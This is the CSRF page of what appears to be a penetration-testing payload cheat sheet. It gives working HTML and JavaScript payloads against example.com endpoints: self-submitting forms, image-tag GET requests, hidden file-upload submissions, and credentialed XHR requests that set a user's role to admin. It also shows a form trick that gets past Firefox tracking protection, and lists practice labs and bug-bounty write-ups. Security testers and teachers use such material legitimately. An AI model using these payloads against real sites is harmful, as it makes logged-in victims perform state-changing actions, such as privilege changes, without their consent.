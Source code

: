 # Cross-Site Request Forgery

> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [HTML GET - Requiring User Interaction](#html-get---requiring-user-interaction)
    * [HTML GET - No User Interaction](#html-get---no-user-interaction)
    * [HTML POST - Requiring User Interaction](#html-post---requiring-user-interaction)
    * [HTML POST - AutoSubmit - No User Interaction](#html-post---autosubmit---no-user-interaction)
    * [HTML POST - multipart/form-data With File Upload - Requiring User Interaction](#html-post---multipartform-data-with-file-upload---requiring-user-interaction)
    * [JSON GET - Simple Request](#json-get---simple-request)
    * [JSON POST - Simple Request](#json-post---simple-request)
    * [JSON POST - Complex Request](#json-post---complex-request)
* [Labs](#labs)
* [References](#references)

## Tools

* [0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe) - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.

## Methodology

![CSRF_cheatsheet](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Cross-Site%20Request%20Forgery/Images/CSRF-CheatSheet.png)

When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.

### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```

### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

### HTML POST - multipart/form-data With File Upload - Requiring User Interaction

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```

### JSON GET - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

### JSON POST - Simple Request

With XHR :

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

With autosubmit send form, which bypasses certain browser protections such as the Standard option of [Enhanced Tracking Protection](https://support.mozilla.org/en-US/kb/enhanced-tracking-protection-firefox-desktop?as=u&utm_source=inproduct#w_standard-enhanced-tracking-protection) in Firefox browser :

```html
<form id="CSRF_POC" action="www.example.com/api/setrole" enctype="text/plain" method="POST">
// this input will send : {"role":admin,"other":"="}
 <input type="hidden" name='{"role":admin, "other":"'  value='"}' />
</form>
<script>
 document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - Complex Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## Labs

* [PortSwigger - CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
* [PortSwigger - CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
* [PortSwigger - CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
* [PortSwigger - CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
* [PortSwigger - CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
* [PortSwigger - CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
* [PortSwigger - CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
* [PortSwigger - CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)

## References

* [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
* [Cross-Site Request Forgery (CSRF) - OWASP - Apr 19, 2024](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
* [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton - July 26, 2015](https://whitton.io/articles/messenger-site-wide-csrf/)
* [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial - 19 July 2016](https://web.archive.org/web/20170607102958/https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
* [Hacking PayPal Accounts with one click (Patched) - Yasser Ali - 2014/10/09](https://web.archive.org/web/20141203184956/http://yasserali.com/hacking-paypal-accounts-with-one-click/)
* [Add tweet to collection CSRF - Vijay Kumar (indoappsec) - November 21, 2015](https://hackerone.com/reports/100820)
* [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd - October 16, 2015](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
* [How I Hacked Your Beats Account? Apple Bug Bounty - @aaditya_purani - 2016/07/20](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
* [FORM POST JSON: JSON CSRF on POST Heartbeats API - Eugene Yakovchuk - July 2, 2017](https://hackerone.com/reports/245346)
* [Hacking Facebook accounts using CSRF in Oculus-Facebook integration - Josip Franjkovic - January 15th, 2018](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
* [Cross Site Request Forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
* [Cross-Site Request Forgery Attack - PwnFunction - 5 Apr. 2019](https://www.youtube.com/watch?v=eWEgUcHPle0)
* [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
* [Bypass Referer Check Logic for CSRF - hahwul - Oct 11, 2019](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)
